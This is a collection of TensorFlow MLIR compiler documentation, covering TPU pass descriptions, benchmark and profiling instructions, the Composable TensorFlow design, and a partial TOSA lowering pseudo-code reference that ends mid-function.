  "tf_device.launch"() ( {
    "tf.TPUCompileSucceededAssert"(%0#0) : (tensor<!tf_type.string>) -> ()
    tf_device.return
  }) {device = "/job:localhost/replica:0/task:0/device:CPU:0"} : () -> ()
  %1 = "tf_device.parallel_execute"() ( {
    %2 = "tf_device.launch"() ( {
      %3 = "tf.TPUExecute"(%arg0, %0#1) : (tensor<8xi32>, tensor<3x!tf_type.string>) -> tensor<8xi32>
      tf_device.return %3 : tensor<8xi32>
    }) {device = "/job:localhost/replica:0/task:0/device:TPU:0"} : () -> tensor<8xi32>
    tf_device.return %2 : tensor<8xi32>
  },  {
    "tf_device.launch"() ( {
      "tf.TPUExecute"(%0#2) : (tensor<3x!tf_type.string>) -> ()
      tf_device.return
    }) {device = "/job:localhost/replica:0/task:0/device:TPU:1"} : () -> ()
    tf_device.return
  }) : () -> tensor<8xi32>
  return %1 : tensor<8xi32>
}
```
### `-tf-tpu-sharding-identification`: Identifies and handles inputs/outputs of TPU computation that is sharded across logical cores.
Bubbles up sharding configuration from `cluster_func` regions into
the attributes of `cluster_func`. This is done by parsing the
`XlaSharding` / `TPUPartitionedOutput` / `TPUPartitionedInput` ops inside
`cluster_func`.

For example, given the following `cluster_func` wrapping `func`:

```mlir
  func @test(%arg0: tensor<*xi32>) {
    "tf_device.cluster_func"(%arg0) {
        func = @func,
        step_marker_location = ""} : (tensor<*xi32>) -> tensor<*xi32>
    return
  }

  func @func(%arg0: tensor<*xi32>) -> tensor<*xi32> {
    %0 = "tf.XlaSharding"(%arg0) {_XlaSharding = "\01\02\03",
                                  sharding = "\01\02\03"} : (tensor<*xi32>) -> tensor<*xi32>
    %1 = "tf.A"(%0) : (tensor<*xi32>) -> (tensor<*xi32>)
    return %1 : tensor<*xi32>
  }
```

Now, cluster_func recieves the following `*_sharding_configuration`
attributes, and `func` receives the mhlo.sharding attribute:

```mlir
  func @test(%arg0: tensor<*xi32>) {
    %0 = "tf_device.cluster_func"(%arg0) {
        func = @func,
        input_sharding_configuration = ["\01\02\03"],
        output_sharding_configuration = ["\08\01\1A\01\01\22\01\00"],
        step_marker_location = ""} : (tensor<*xi32>) -> tensor<*xi32>
    return
  }
  func @func(%arg0: tensor<*xi32> {mhlo.sharding = "\01\02\03"}) ->
            (tensor<*xi32> {mhlo.sharding = "\08\01\1A\01\01\22\01\00"}) {
    %0 = "tf.XlaSharding"(%arg0) {_XlaSharding = "\01\02\03", sharding = "\01\02\03"} : (tensor<*xi32>) -> tensor<*xi32>
    %1 = "tf.A"(%0) : (tensor<*xi32>) -> tensor<*xi32>
    return %1 : tensor<*xi32>
  }
```
### `-tf-tpu-space-to-depth-pass`: Applies automatic space to depth transform for the first or frontier convolutions consume host inputs on TPU.
Automatic space to depth transform is done by adding space to depth transform op after host input
and applying space to depth transform for the first convolution and its backprop filter on TPU.

For example, original program:

```mlir
module {
  func @while_body {
    %input = "tf.IteratorGetNext"(...) {device = "/CPU:0"}: -> tensor<2x224x224x3xf32>
    %device_launch = "tf_device.cluster_func"(%input,...) {func = @_func,...)
    return ...
  }
  func @_func(%input: tensor<2x224x224x3xf32>, %filter: tensor<7x7x3x64xf32>) {
    %6 = "tf.Conv2D"(%input, %filter)  {strides = [1, 2, 2, 1]}: (tensor<2x230x230x3xf32>, tensor<7x7x3x64xf32>) -> tensor<2x112x112x64xf32>
  }
}
```

The program will be transformed into:

```mlir
module {
  func @while_body {
    %input = "tf.IteratorGetNext"(...) {device = "/CPU:0"} -> tensor<2x224x224x3xf32>
    %space_to_depth = "tf.SpaceToDepth"(%input) {block_size = 2, ...}: (tensor<2x224x224x3xf32>) -> tensor<2x112x112x12xf32>
    %device_launch = "tf_device.cluster_func"(%space_to_depth,...) {func = @_func,...)
    return ...
  }
  func @_func(%input: tensor<2x112x112x12xf32>, %filter: tensor<7x7x3x64xf32>) {
    %filter_transform = "tf.Pad/tf.Transpose/tf.Reshape"(%filter): tensor<7x7x3x64xf32>) -> tensor<4x4x12x64xf32>
    %conv = "tf.Conv2D"(%input, %filter_transfrom) {strides = [1, 1, 1, 1]}: (tensor<2x112x112x12xf32>, tensor<4x4x12x64xf32>) -> tensor<2x112x112x64xf32>
  }
}
```

This way, the first convolution with 3 feature dimension will be transformed
to 12 feature dimension, which has better performance on TPU.
### `-tf-tpu-update-embedding-enqueue-op-inputs`: Updates inputs to TPU embedding enqueue ops depending on whether graph is in training mode or in evaluation mode.
Updates inputs to TPU embedding enqueue ops depending on whether graph
is in training mode or in evaluation mode.
### `-tf-tpu-variable-runtime-reformatting`: Adds device variable formatting op to allow compilation-guided variable formatting.
A pass that takes advantage of a loop to add ops that allow the execution to
avoid repeatedly formatting variables back and forth. The desired formatting
is determined by TPU program compilation, so this pass does not include how
to reformat the variables, but only inserts general TPUReshardVariablesOps in
proper places, and TPUReshardVariablesOps interpret the compilation.

The core idea of this optimization is to keep track of the formatting state
of variables, and when the next desired state does not change, it can avoid
reformatting. We associate a set of variables on a device with a formatting
state, and TPUReshardVariablesOps compares the current state with a desired
state (which can be the compilation result). If they mismatch,
TPUReshardVariablesOp reformats the variables to the desired state; if they
match, TPUReshardVariablesOp is a no-op.

A major use of this pass is weight-update sharding in data parallelism, so we
require there is a tf_device.replicate in the loop.

For example, suppose we have a training loop (for simplicity we write the
loop body inine):

```mlir
  %var0 = ...
  %var1 = ...
  tf.while (..., %var0, %var1) {
    tf_device.replicate ([%var0, %var1] as %rvar) {
      %compile:2 = "tf._TPUCompileMlir"()
      tf.TPUExecuteAndUpdateVariablesOp(%rvar, compile#1)
    }
  }
```

This pass will transform it into

```mlir
  %var0 = ...
  %var1 = ...
  %state_var0 = ...
  %state_var1 = ...
  tf.while (..., %var0, %var1, %state_var0, %state_var1) {
    tf_device.replicate ([%var0, %var1] as %rvar,
                         [%state_var0, %state_var1] as %rstate) {
      %compile:2 = "tf._TPUCompileMlir"()
      tf.TPUReshardVariablesOp(%rvar, %compile#1, %rstate)
      tf.TPUExecuteAndUpdateVariablesOp(%rvar, compile#1)
    }
  }
  %default_format = tf.constant()
  tf_device.replicate ([%var0, %var1] as %rvar,
                       [%state_var0, %state_var1] as %rstate) {
    tf.TPUReshardVariablesOp(%rvar, %default_format, %rstate)
  }
```
### `-tf-unroll-batch-matmul`: Unroll TF BatchMatMul op into Reshape, Slice, MatMul, Pack ops.
### `-tf-verify-for-export`: Verify module is suitable for export back to TF Graph
Verifies whether all functions in module are of single tf_executor.graph and
each tf_executor.island in tf_executor.graph only has a single op.
### `-tfe-legalize-tfg`: Legalize from TFG to the TFE dialect
# Performance benchmarks for MLIR based code generation

These benchmarks compare performance of Tensorflow -> LLVM code generation
with Eigen. These benchmarks are based on the Google Benchmark library and
can be integrated with performance monitoring tools.

## Running benchmarks

```
bazel run -c opt --cpu=haswell \
  :cwise_op_tanh_benchmark -- --benchmarks="f32/10k"
```

## Using perf and pprof with these benchmarks

1. Record perf profile
```
perf record -k 1 -o /tmp/perf.data --        \
  bazel run -c opt --cpu=haswell -copt=-gmlt \
  :cwise_op_tanh_benchmark -- --benchmarks="f32/10k"
```

2. Inject data from the JIT compiled functions
```
perf inject -j -v -i /tmp/perf.data -o /tmp/perf.data.jit
```

3. Report perf data

```
perf report -i /tmp/perf.data.jit
```

or

```
pprof -flame -nodecount=10000 /tmp/perf.data.jit
```

<!-- BEGIN GOOGLE-INTERNAL -->
## Running benchmarks using perflab and benchy

1. go/benchy
2. go/perflab

```
benchy                                                                        \
  --reference=${reference} --cpu=haswell --runs=20 --benchmarks=all           \
  --perflab --borg_constraints="platform_family_genus_cpu=indus-skylake-2000" \
  third_party/tensorflow/compiler/mlir/tfrt/benchmarks:cwise_op_tanh_benchmark
```

As of Q1 2021 `indus-skylake-2000` is the machine of the day, and rougly 60% of
the fleet cycles are executed on Skylakes.

Reference can be:
1. Cl number to test agains another pending change
2. `srcfs` to test agains the g3 head
3. Another client number to test local changes wihtout exporting them
<!-- END GOOGLE-INTERNAL -->

# Composable Tensorflow

## Composable Tensorflow

Composable TensorFlow (TF) is the framework for defining portable TF ops with
composition in the authoring language.

The set of standard TF ops is currently open. New ops are defined for special
purposes but it is hard to make them work end-to-end: The op
needs to be handled separately by several backends (tf2xla bridge, tflite
converter, CPU kernels, etc.). Writing shape functions and gradients for these
ops is extremely difficult. `tf.function` makes some parts of the implementation
simpler, but it introduces runtime overhead and it cannot easily be used to
apply dedicated optimizations to op kernels.

The composable TF framework allows the user to define portable TF ops as
compositions of other TF ops. It translates a Python function used to define the
composition directly into a portable IR at build time, and uses it to expand the
composite op in the TF program during compilation / execution. By using this
expansion mechanism, new op are readily available on different platforms without
extra work. Moreover, since the expansion is optional, the backend can easily
treat it as a monolithic op when needed, for instance to apply optimizations or
associate it with a custom kernel.

### Benefits

Using the Composable TF API to define a new op and its composition can bring the
following benefits:

* *Automatic backend support*: As long as it is composed of ops supported by the
backend, the new op is automatcally supported (as a `tf.function` alternative);
* *Reduced tracing overhead*: Unlike `tf.function`, the composition function is
compiled at build time, hence TF only needs to trace a single op to build the
`graph`;
* *Easy fused op/kernel optimization*: Even if it has complex
semantics, the new op is presented as a single node in the graph, thus
optimization passes and kernels can easily be specialized to this op for better
performance.
* *Automatic shape/type inference support*: No shape functions are required for
the new op;
* *Automatic gradient support (WIP)*: The user doesn't need to author
gradient a function of the op for training.

### Use Cases

* (Portablity) User wants to add a new op and run this op on different
platforms (CPU, TPU, TFLite, etc.) to be portable.
 * *Solution*: The user should define the new op as a composition. The ops used
 inside the composition should have support for these platforms. These ops can
 also be composite ops.

* (Performance) User defines a custom kernel for a regular structure
(i.e. LSTM), but it is hard to add the logic to fuse the individual ops to
target this kernel in the inference graph.
 * *Solution*: The user should define a new TF op, which corresponds to the
 fused kernel, with composition, and use this op to build the model for both
 training and inference. For the platforms where a fused kernel is not
 available, the execution will use the composition instead.

## Gradient
(TODO)

## Authoring Op Composition in Python

The composable TF provides a single API to define a new op with its composition
at the same time. For example, the following code defines a new
`FusedFullyConnected` op, which have `MatMul`, `Add` and some
`activation function` (specified by an op attribute) fused.


```python
import tensorflow as tf

@Composite(
    'FusedFullyConnected',
    inputs=['input_: T', 'filter_: T', 'bias: T'],
    attrs=['act: {"", "RELU", "RELU6", "TANH"} = ""'],
    derived_attrs=['T: {float, int8}'],
    outputs=['o: T'])
def _composite_fully_connected(input_, filter_, bias, act):
  res = tf.raw_ops.MatMul(
      a=input_, b=filter_, transpose_a=False, transpose_b=True)
  res = tf.raw_ops.Add(x=res, y=bias)
  if act == 'RELU':
    return tf.raw_ops.Relu(features=res)
  elif act == 'RELU6':
    return tf.raw_ops.Relu6(features=res)
  elif act == 'TANH':
    return tf.raw_ops.Tanh(x=res)
  else:
    return res

```

Besides defining new ops, composition can be specified for an existing op
for portability. The following code defines the semantics of `AddNOp`:

```python
@Composite('AddNOp')
def _my_op_c(ins):
  N = len(ins)
  if N == 1:
    return ins[0]
  sum = ins[0]
  for i in range(1, N):
    sum += ins[i]
  return sum
```

Utilities have been built to compile the Python composition functions down to
the backend IR. The project also provides a set of graph optimization passes to
expand the composite ops in the graph by using the input backend IR. These
passes have been added to the TF
[common runtime](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/common_runtime)
for graph execution and
[eager runtime](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/common_runtime/eager)
for eager execution.

## Compiling Op Composition

### Ahead-Of-Time (AOT) mode

Like the op kernels, the op composition can be pre-compiled to the backend IR
so the decomposition can be invoked at runtime. A Python [define_op_template.py](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/compiler/mlir/tfr/define_op_template.py)
file is provided as an example to build composite ops in the users project
directory. All the targets required to build the new ops are created by the
following target:


```BUILD
load("//tensorflow/compiler/mlir/tfr:build_defs.bzl", "gen_op_libraries")

gen_op_libraries(
    name = "test_ops",
    src = "define_op_template.py",
    deps = [
        "//third_party/py/tensorflow",
    ],
)
```

More composite op definitions and usages are here included in the
[examples](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/compiler/mlir/tfr/examples)
directory.

### Just-In-Time (JIT) mode
(TODO)

## Known Limitations

* `while` statement
* condition of `if` statement couldn't be a tensor

## RFC
This project is an alternative implementaion of [RFC:Standardizing composite ops in tensorflow to support efficient inference](https://github.com/tensorflow/community/blob/master/rfcs/20190610-standardizing-composite_ops.md).
This project doesn't rely on the tracing functionality provided by `tf.function`
to avoid all its pitfalls and it helps to build more general transformations in
the backends.

## Team

* Feng Liu
* Dan Moldovan

# TOSA Lowerings

## Introduction

### Overview

This document provides pseudo-code lowerings from TensorFlow and TensorFlow Lite
MLIR Dialects (https://www.tensorflow.org/mlir/dialects) to the TOSA Dialect
(https://mlir.llvm.org/docs/Dialects/TOSA/).

The documentation is a work-in-progress: sections with missing legalizations are
in the process of being written.

## Syntax

The pseudo-code syntax used in this document is described below.

### Primitive Datatypes

int8: signed 8-bit integer uint8: unsigned 8-bit integer int16: signed 16-bit
integer int32: signed 32-bit integer int64: signed 32-bit integer uint32:
unsigned 32-bit integer float32: IEEE-754 32-bit floating point format float64:
IEEE-754 64-bit floating point format bool: boolean

### Value

In pseudo-code, symbol starting with "%" indicates it’s a value. A value is
evaluated by an operator at run time, and operator can consume and can only
consume a list of values as operands. Note value’s tensor type is determined at
compile time. Only the evaluation happens at run time One can easily construct a
data flow subgraph by looking at the producer/consumer.

### Tensor Type

Tensor type is an attribute determined by legalization at compile time,
describing the shape and element data type. It’s noted as tensor&lt;shape,
dtype&gt;, or shorthanded as tensor&lt;%t.type&gt;

### Operator Prototype

In pseudocode an TOSA operator is prototyped as following format.

%&lt;output\_value&gt; = tosa.&lt;OPERATOR&gt;(%&lt;input\_value&gt;)
{&lt;attribute = …​}

### Value Attributes

For the purposes of brevity and clarity in this document, the pseudocode allows
the following notation on value attribute.

Shorthand         | Description
----------------- | ---------------------------------------------------
`%t.shape`        | Shape vector for the tensor
`%t.shape[i]`     | Size of dimension i for the tensor
`%t.rank`         | Rank of the tensor
`%t.dtype`        | Datatype of the tensor
`%t.scale`        | Quantized scaling parameter (float64)
`%t.zp`           | Quantized zero-point (int64)
`%t.signed`       | Boolean indicating the type is signed
`%t.num_bits`     | Number of bits in the datatype
`%t.num_elements` | Number of elements in the tensor
`%t.type`         | Tuple of `tensor<%t.shape, %t.dtype>`
`%t.size`         | For tensor lists: the number of tensors in the list

### Tensor Dimension Shorthand

Where the TOSA Specification allows the use of named dimensions, the following
names may be used.

Name | Description
---- | --------------------
`N`  | Batch dimension
`H`  | Height dimension
`W`  | Width dimension
`C`  | Channel dimension
`M`  | Depthwise multiplier

Each of these may be prefixed with `I` for the input dimension or `O` for the
output dimension or `K` for kernel dimensions.

## Common Legalization Functions

The following pseudocode helper functions are used to cannonicalize arguments
from different frameworks to the TOSA dialect.

### .as_constant(): Matched as Constant

Wherever %tensor.as_constant() is specified, a constant vector will be created
to hold the value in the %tensor at compile time. This only succeeds if %tensor
is fed by a constant type operator. If constant matching fails, the lowering
will fail and be terminated.

## Common Legalization Functions

The following pseudo-code helper functions are used to cannonicalize arguments
from different frameworks to the TOSA dialect.

### get_padding_values_from_explicit_pad_attr()

```
vector<int64> get_padding_values_from_explict_pad_attr(vector<int64> explicit_pad,
                                                         tensorflow::TensorFormat data_format_tf)
{
    int64 pad_before, pad_after
    vector<int64> computed_paddings

    for (int32 i = 0; i < 2; i++) {
        int64 dim = GetTensorSpatialDimIndex(4, data_format_tf, i)
        pad_before = explicit_pad[dim * 2]
        pad_after  = explicit_pad[dim * 2 + 1]
        computed_paddings.push_back(pad_before)
        computed_paddings.push_back(pad_after)
    }

    return computed_paddings
}
```

### get_padding_values_from_pad_type()

Calculate explicit padding array based on pad type

```
vector<int64> get_padding_values_from_pad_type(tensorflow::Padding padding, tensorflow::TensorFormat data_format,
                                        uint32 first_filter_spatial_dim, type input_type, type filter_type
                                        vector strides, vector dilations)
{
    assert(padding != tensorflow::Padding::EXPLICIT);

    vector<int64> computed_padding;

    // Padding over H and W dimensions
    for (int32 i = 0; i < 2; i++) {
        int32 ifm_dim = get_tensor_spatial_dim_index(4, data_format, i);

        int32 filter_dim = first_filter_spatial_dim + i;

        int32 dim_dilation = dilations[ifm_dim];
        int32 dim_stride   = strides[ifm_dim];

        int64 op_size, pad_before_tf, pad_after_tf;

        tensorflow::GetWindowedOutputSizeVerboseV2(input_type.shape[ifm_dim], filter_type.shape[filter_dim],
                                                   dim_dilation, dim_stride, padding,
                                                   // Outputs
                                                   &op_size, &pad_before_tf, &pad_after_tf);
        computed_paddings.push_back(pad_before_tf);
        computed_paddings.push_back(pad_after_tf);
    }

    return computed_paddings;
}
```

### positive_axis()

```
// Cannonicalize scalar axis attributes to a scalar positive axis attribute
int32 positive_axis(int32 axis, int32 rank)
{
   if (axis < 0)
       axis += rank;

   return axis;
}
```

### compute_scale_32()

```
void compute_scale_32(float64 scale, int32& multiplier, int32& shift)
{
    /* Generates mantissa and shift values where mantissa is in [-1.0,-0.5] or
    [0.5, 1.0] such that
    multiplier = mantissa*2^shift */

    const float64 mantissa = std::frexp(scale, &shift);
    auto shifted_m = std::round(mantissa * (int64(1) << 31));

    assert(shifted_m <= (int64(1) << 31)); // can't be greater that 1.0
    if (shifted_m == (int64(1) << 31)) {
        shifted_m /= 2;
        shift++;
    }
    // TOSA expect right shift to be positive, and embed (1 << 31) into right
    // shift bits
    shift = (-shift) + 31;

    assert(shifted_m <= std::numeric_limits<int32>::max());

    multiplier = static_cast<int32>(shifted_m);

}
```

### lower_batch_to_space_nd_op()

```
Value lower_batch_to_space_nd_op(Value %input, Value %block_shape, Value %crops, shape_t output_shape)
{

    vector <size_t> block_shape(%block_shape.rank)
    vector std::pair<size_t, size_t> crops_arr

    size_t remaining_shape_rank = %input.rank - %block.rank - 1
    size_t crops_dim = %crops.shape[0]

    for (int32 i = 0; i < crops_dim; i++) {
        crops[i] = std::make_pair(%crops.as_constant()[i * crops_dim + 0],
                                  %crops.as_constant()[i * crops_dim + 1])
    }

    // Step 1: Reshape input to
    // [block_shape[0],
    // ...
    // [block_shape[M-1],
    // [batch / prod(block_shape)]
    // [input_shape[1],
    // ...
    // [input_shape[N-1]

    vector <size_t> a1_shape(%block.rank + %input.rank)

    for (int32 i = 0; i < %block.rank; i++) {
        a1_shape[i] = %block.shape[i]
    }

    a1_shape[%block.rank] = %input.shape.[0] / %block.num_elements

    for (int32 i = 1; i < %input.rank; i++) {
        a1_shape[i + %block.rank] = %input.shape[i]
    }

    // Step 2. Permute to shape:
    // [ batch / prod(block_shape) ],
    // [ input_shape[1] ], [ block_shape[0] ]
    //  ...
    // [ input_shape[M] ], [ block_shape[M-1]
    // + remaining_input_shapes input_shape[M+1 .. N-1]
    vector <size_t> a2_perm(%block.rank + %input.rank)

    a2_perm[0] = %block.rank
    for (int32 i = 0; i < %block.rank; i++) {
        a2_perm[1 + i * 2 + 0] = %block.rank + 1 + i
        a2_perm[1 + i * 2 + 1] = i
    }

    // Step 3. Reshape to
    // [ batch / prod(block_shape) ],
    // [input_shape[1] * block_shape[0] ],
    //    ..
    // [input_shape[M * block_shape[M-1],
    // + remaining input shapes [input_shape[M+1.. N-1]]
    vector <size_t> a3_shape(%input.rank)

    %a3_shape[0] = %input.shape[0] / %block.num_elements
    for (int32 i = 0; i < %block.rank; i++) {
        a3_shape[i + 1] = %input.shape[i + 1] * %block.shape[i]
    }

    for (int32 i = 0; remaining_block_shape; i++) {
        a3_shape[1 + %block.rank + 1] = %input.shape[%block.rank + 1 + i]
    }

    // Step 4 Crop the start/end dimensions using slice
    vector <size_t> a4_begin(%input.rank), a4_size(%input.rank)

    for (int32 i = 0; i < %input.rank; i++) {
        if (i == 0 || i > crop_dims) {
           a4_begin[i] = 0
           a4_size[i] = output_shape[i]
        } else {
          a4_begin[i] = %crops[i-1].first
          a4_size[i] = crops[i - 1].first - crops[i - 1].second
        }
    }

    %a1_reshape = tosa.RESHAPE(%input) {new_shape=a1_shape}
    %a2_transpose = tosa.TRANSPOSE(%a1_reshape) {perms=a2_perm}
    %a3_reshape = tosa.RESHAPE(%a2_transpose) {new_shape=a3_shape}
    %output = tosa.SLICE(%a3_reshape) {begin=a4_begin, size=a4_size}

    return %output
}
```

### lower_concatv2_op()

```
Value lower_concatv2_op(Type output_type, Value %values, int32 axis)
{
    int32 tosa_axis = positive_axis(axis)

    assert(%values.size >= 2)

    // Convert scalar inputs to a tensor
    if (%values:0.size == 0) {
       for (int32 i = 0; i < %values.size; i++) {
          %values:i = tosa.RESHAPE(%values:i) {new_shape=1}
       }
    }

    for (int32 i=0; i < %values.size(); i++) {
        %val = %values:i
        if (%val.zp != output_type.zp || %val.scale != output_type.scale) {
            float64 rescale_scale = %val.scale / output_type.scale
            %values:i = tosa.RESCALE(%val) {scale=rescale_scale, input_zp=%values:0.zp, output_zp=output_type.zp}
        }
    }

    %concat_op = tosa.CONCAT(%values:0, %values:1) {axis=tosa_axis}

    for (int32 i = 2; i < %values.size; i++) {
        %concat_op = tosa.CONCAT(%concat_op, %values:i) {axis=tosa_axis}
    }

    return %concat_op
}
```

### lower_depth_to_space_op()

```
Value lower_depth_to_space_op(Value %input, size_t block_size[], Format_t data_format)
{
    assert(data_format == 'NHWC')

    vector <size_t> a2_shape = {%input.shape[0],
                                %input.shape[1],
                                %input.shape[2],
                                block_size[0],
                                block_size[1],
                                %input.shape[3] / (block_size[0] * block_size[1])}

    vector <size_t> a4_shape = {%input.shape[0],
                                %input.shape[1] * block_size[0],
                                %input.shape[2] * block_size[1],
                                %input.shape[3] / (block_size[0] * block_size[1])}

    %a2_reshape = tosa.RESHAPE(%input) {new_shape=a2_shape}
    %a3_transpose = tosa.TRANSPOSE(%a2_reshape) {perms={0, 1, 3, 2, 4, 5}}
    %output = tosa.RESHAPE(%a3_transpose) {new_shape=a4_shape}

    return %output
}
```

### lower_elu_op()

```
Value lower_elu_op(Value %value)
{
    // elu(x) = x < 0 ? (exp(x) - 1) : x
    // Create constants for 0/1 and reshape to match the rank
    // of %value
    %one_const = tosa.CONST() {value={1}}
    %zero_const = tosa.CONST() {value={0}}

    vector bcast_shape
    for (int32 i = 0; i < %value.rank; i++) {
        bcast_shape.push_back(1)
    }

    %one_reshape = tosa.RESHAPE(%one_const) {new_shape=bcast_shape}
    %zero_reshape = tosa.RESHAPE(%zero_const) {new_shape=bcast_shape}

    %exp_in = tosa.EXP(%value)
    %sub = tosa.SUB(%exp_in, %one_reshape)
    %ge  = tosa.GREATER_EQUAL(%value, %zero_reshape)
    %output = tosa.SELECT(%ge, %value, %sub)
    return %output
}
```

### lower_expand_dims()

```
Value lower_expand_dims(Value %input, int32 axis)
{
    vector<size_t> reshape_dims

    if (axis < 0 || axis >= %input.rank) {
        // Insert at the end of the tensor
        axis += %input.rank
        for (int32 i = 0; i < input.rank; i++) {
           reshape_dims.push_back(%input.shape[i])
        }
    } else {
        for (int32 i= 0 ; i < %input.rank; i++) {
            if (i == axis) {
                reshape_dims.push_back(1)
            }
            reshape_dims.push_back(%input.shape[i])
        }
    }

    %output = tosa.RESHAPE(%input) {new_shape=reshape_dims}
    return %output
}
```

### lower_fake_quant_op()

```
Value lower_fake_quant_op(Value %inputs, type output_type, float64 min, float64 max,
                            int64 num_bits, bool narrow_range)
{
    assert(num_bits == 8 || num_bits == 16)

    int64 qmax = (1L << (num_bits - 1)) - 1;
    int64 qmin = -(1L << (num_bits - 1))

    if (narrow_range) {
       qmin = qmin + 1
    }

    float64 scale = (max - min) / float64(qmax - qmin)

    int64 zeropoint = (int64)std::round((-min) / scale + float64(qmin))

    %quantized = lower_quantize_op(%inputs.type, %inputs, 1.0 / scale, zeropoint)

    %dequantized = lower_dequantize_op(output_type, %quantized_op, scale, zeropoint)

    return %dequantized
}
```

### lower_floor_div()

```
Value lower_floor_div(Value %lhs, Value %rhs)
{
    %recip = tosa.RECIPROCAL(%rhs)
    %mul = tosa.MUL(%lhs, %recip)
    %output = tosa.FLOOR(%mul)

    return %output
}
```

### lower_floor_mod()

```
Value lower_floor_mod(Value %lhs, Value %rhs)
{
    %recip = tosa.RECIPROCAL(%rhs)
    %mul = tosa.MUL(%lhs, %recip)
    %floor = tosa.FLOOR(%mul)
    %output = tosa.SUB(%mul, %floor)
    return %output
}
```

### lower_quantize_op()

```
Value lower_quantize_op(Type output_type, Value %input, float64 scale, int64 zeropoint)
{
    %const_scale = tosa.CONST() {value={scale}}
    %const_zp = tosa.CONST() {value={zeropoint}}
    %op1_mul_in_scale = tosa.MUL(%input, %const_scale)
    %op2_add_op1_zp = tosa.ADD(%op1_mul_in_scale, %const_zp)
    %op3_cast_op2 = tosa.CAST(%op2_add_op1_zp) // f32->%output.dtype
}
```

### lower_dequantize_op()

```
Value lower_dequantize_op(Value %input, float64 scale, int64 zeropoint)
{
    %const_scale = tosa.CONST() {value={scale}}
    %const_zp = tosa.CONST() {value={(float64)zeropoint}}
    %op1_cast_in = tosa.CAST(%input) // %input.dtype->f32
    %op2_sub_op1_zp = tosa.SUB(%op1_cast_in, %const_zp)
    %op3_mul_op2_scale = tosa.MUL(%op2_sub_op1_zp, %const_scale)
}
```

### lower_log_softmax_op()

```
Value lower_log_softmax_op(Value %logits)
{
    %op1 = tosa.EXP(%logits)
    %op2 = tosa.REDUCE_SUM(%op1) {axis=(%logits.rank-1)}
    %op3 = tosa.RECIPROCAL(%op2)
    %op4 = tosa.MUL(%op1, %op3)
    %op5 = tosa.LOG(%op4)

    return %op5
}
```

### lower_pack_op()

```
Value lower_pack_op(Value %input[], size_t axis)
{
    size_t concat_axis = positive_axis(axis)

    size_t input_tensor_rank = %input[0].rank

    // Convert any rank 0 to rank 1 with reshape
    if (input_tensor_rank == 0) {
       for (int32 i = 0; i < %input.size; i++) {
           %input[i] = tosa.RESHAPE(%input[i], {1})
       }
   }

   vector<size_t> output_shape
   for (int32 i = 0; i < input_tensor_rank; i++) {
       output_shape.push_back(%input[0].shape[i]
   }

   output_shape[concat_axis] = output_shape[concat_axis] * %input.size

   // First pair of tensors
   %concat = tosa.CONCAT(%input[0], %input[1]) {axis=concat_axis}

   // Remaining tensors
   for (int32 i = 2; i < %input.size; i++) {
      %concat = tosa.CONCAT(%concat, %input[i]) {axis=concat_axis}
   }

   if (input_tensor_rank == 0) {
      // No reshape needed for rank 0, already done
      %output = %concat
   } else

      %reshape = tosa.RESHAPE(%concat) {new_shape=output_shape}

      if (concat_axis == input_tensor_rank) {
         // Output shape is [A, B, C, .. n] in this case,
         // need to reshape to [N, A, B, C, ..] with perm [1, 2, 3, .. 0]
         concat_axis = 0

         vector <size_t> perms
         for (int32 i = 0; i < %input[0].rank; i++)
            perms.push_back(i + 1)
         perms.push_back(0)

         %output = tosa.TRANSPOSE(%reshape) {perms=perms}
     } else {
         %output = %reshape
     }

     return %output
}
```

### lower_reduce_op()

```
Value lower_reduce_op<tosa_op_t OP>(Value %input, shape_t output_shape, Value %axes, bool keep_dims, float64 input_scale=1.0f, int32 input_zp=0, float64 output_scale=1.0f, int32 output_zp=0)
{

    vector axes_vec = %axes.as_constant();

    // Special case of no axes means no transformation
    if (axes_vec.size() == 0) {
       return tosa.IDENTITY(%input)
    }

    bool is_quantized = isa<QuantizedType>(%input.dtype) ? true : false

    shape_t shape = %input.shape;
    %output = %input;

    if (is_quantized) {
        %output = tosa.RESCALE(%output) {scale=input_scale, input_zp=input_zp, output_zp=0}
    }

    for (int32 i = 0; i < axes_vec.size(); i++) {
        int32 axis = positive_axis(axes_vec[i], %input.rank);

        shape[axis] = 1;
        %output = tosa.OP(%output) {axis=axis}
    }

    if (!keep_dims) {
       %output = tosa.RESHAPE(%output) {new_shape=output_shape}
    }

    if (is_quantized) {
        %output = tosa.RESCALE(%output) {scale=output_scale, input_zp=0, output_zp=output_zp}
    }

    return %output;
}
```

### lower_resize_op()

```
Value lower_resize_op(Value %images, Value %size, shape output_shape, dtype output_dtype, mode_t mode)
{
    int32 input_height  = %input.shape[1]
    int32 input_width   = %input.shape[2]
    int32 output_height = %output.shape[1]
    int32 output_width  = %output.shape[2]

    float64 in_center_h  = static_cast<float64>(input_height - 1) / 2.0
    float64 in_center_w  = static_cast<float64>(input_width - 1) / 2.0
    float64 out_center_h = static_cast<float64>(output_height - 1) / 2.0
    float64 out_center_w = static_cast<float64>(output_width - 1) / 2.0

    float64 fp_stride_y, fp_stride_x
    if (align_corner && output_height > 1)
        fp_stride_y = static_cast<float64>(input_height - 1) / static_cast<float64>(output_height - 1)
    else
        fp_stride_y = static_cast<float64>(input_height) / static_cast<float64>(output_height)
    if (align_corner && output_width > 1)
        fp_stride_x = static_cast<float64>(input_width - 1) / static_cast<float64>(output_width - 1)
    else
        fp_stride_x = static_cast<float64>(input_width) / static_cast<float64>(output_width)

    float64 fp_offset_y = fp_offset_y = 0.0f
    if (half_pixel_centers) {
        fp_offset_y = fp_stride_y * 0.5f - 0.5f
        fp_offset_x = fp_stride_x * 0.5f - 0.5f
    }

    if (dtype == float)
        %op1_resize_in = tosa.RESIZE(%input) {stride={fp_stride_y, fp_stride_x}, offset={fp_offset_y, fp_offset_x}, shift=0, resize_mode=mode}
    else {
        int32 shift = 10
        float64 unit = static_cast<float64>(1 << shift)
        int32 stride_y = fp_stride_y * unit
        int32 stride_x = fp_stride_x * unit
        int32 offset_y = fp_offset_y * unit
        int32 offset_x = fp_offset_x * unit

        %op1_resize_in = tosa.RESIZE(%input) {stride={stride_y, stride_x}, offset={offset_y, offset_x}, shift=shift, resize_mode=mode}

        if (mode == "BILINEAR") {
            %const_zero = tosa.CONST() {value={0}}
            %const_twenty = tosa.CONST() {value={20}}
            %op2_ge_op1 = tosa.GREATER_EQUAL(%op1_resize_in, %const_zero)
            %op3_abs_op1 = tosa.ABS(%op1_resize_in)
